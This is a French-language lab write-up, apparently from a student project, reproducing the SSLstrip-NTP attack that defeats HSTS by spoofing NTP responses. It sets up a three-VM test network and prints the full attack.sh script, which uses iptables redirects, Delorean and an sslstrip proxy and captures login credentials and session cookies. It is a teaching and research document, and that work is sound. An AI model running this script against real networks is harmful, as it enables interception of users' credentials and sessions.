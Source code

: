 # Attaque SSLstrip-NTP

Cette amélioration de l'attaque SSLstrip originale a été présentée pour la première fois par Jose Selvi à la [Blackhat Europe de 2014](https://www.blackhat.com/docs/eu-14/materials/eu-14-Selvi-Bypassing-HTTP-Strict-Transport-Security-wp.pdf). Celle-ci permet de contourner la sécurité offerte par HSTS (HTTP Strict Transport Security), dans le cas où l'attaquant est capable de modifier le trafic NTP entre le client et le serveur NTP.

L'attaque SSLstrip originale n'est en effet plus possible lorsque l'on essaye de "striper" les URL d'une page web d'un domaine qui a été protégé ultérieurement par HTTP Strict Transport Security. Le mécanisme HSTS va obliger le client à se connecter à l'URL que l'on cherche à striper en HTTPS pendant un certain laps de temps, défini par le serveur.

Le protocole NTP (Network Time Protocol) permet de synchroniser l'horloge d'un équipement informatique avec un serveur. Il s'agit d'un protocole stateless non-sécurisé basé sur UDP. L'attaque présentée par Jose Selvi consiste à usurper les requêtes NTP pour renvoyer une date éronnée au client, et ainsi faire expirer les entrées HSTS. Pour réaliser cela, l'auteur se base sur un outil Python appellé [Delorean](https://github.com/myusuf3/delorean), qui se comporte comme un serveur NTP et pour lequel on peut définir la date de réponse.

Une fois que l'horloge du client a été compromise et le HSTS du domaine expiré, nous pouvons utiliser l'attaque SSLstrip originale afin de striper les URL des pages web, même pour les domaines censés être protégés par HSTS.

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topology](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/topology) des machines mise en place :


```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut ajouter le certificat de l'autorité de certification dans firefox, grâce à l'outil certutil. De plus, un client NTP est lancé au démarrage de la machine et configuré pour effectuer ses requêtes vers opeth.

Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/grave/start.sh) pour plus de détails.

## Machine "opeth" (147.210.12.1)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâces aux scripts présents dans le dossier [CA](https://github.com/t00sh/mastercsi-ter/blob/master/CA). D'abord on crée une autorité de certification :

```
# Crée la clef root
openssl genrsa -out root-ca.key 4096

# Certificat auto-signé
openssl req -x509 -new -nodes -key root-ca.key -sha256 -days 512 -out root-ca.pem
```

Puis on peut créer un certificat pour le serveur opeth, signé avec la clef de l'autorité de certification que l'on vient de créer :

```
# Crée la clef privée
openssl genrsa -out cert.key 4096

# Crée la requête
openssl req -new -key cert.key -out cert.csr

# Signe le certificat avec la clef de la CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAreateserial -out cert.pem -days 365 -sha256
```

Le serveur héberge deux sites :

  - le domaine [www.opeth.local](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/local/index.php) que l'on accéde en HTTP et présentant un formulaire de login.

  - le domaine [www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) que l'on accéde en HTTPS et protégé par HSTS.

De plus, opeth joue le rôle de serveur NTP légitime, grâce au logiciel ntpd lancé au démarrage de la VM.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh). Cette VM est configurée pour forwarder les paquets entre opeth et grave.

Si elle reçoit une requête NTP sur la chaîne iptables PREROUTING, alors elle redirige ce paquet vers [delorean](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/delorean.py) pour l'attaque.

------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt [qemunet](https://gitlab.inria.fr/qemunet/core)) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip-ntp
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](../medias/sslstrip-ntp/screen1.png?raw=true)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](../medias/sslstrip-ntp/screen2.png?raw=true)

Nous arrivons alors sur le domaine www.opeth.secure en HTTPS : immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](../medias/sslstrip-ntp/screen3.png?raw=true)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
```

On peut constater que les flux TCP à destination du port 80 (HTTP) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes. Aussi, les requêtes NTP sont redirigées vers le serveur Delorean, chargé d'expirer les entrées HSTS.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :

![screen4](../medias/sslstrip-ntp/screen4.png?raw=true)

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que le lien sensible [https://www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) est remplacé par [http://www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php). La machine immortal est donc capable d'intercepter les échanges réalisés sur le domaine [www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php).

Dés que le client effectuera une requête NTP, celle-ci sera redirigée vers le serveur Delorean, qui répondra avec une date permettant d'expirer le HSTS. Cette protection ne sera alors plus effective pour le domaine censé être sécurisé.

Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](../medias/sslstrip-ntp/screen5.png?raw=true)

Nous constatons que nous arrivons sur le domaine www.opeth.secure en HTTP : notre navigation n'est pas sécurisée !

![screen6](../medias/sslstrip-ntp/screen6.png?raw=true)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session alors que le domaine était protégé par HSTS :

![screen7](../medias/sslstrip-ntp/screen7.png?raw=true)
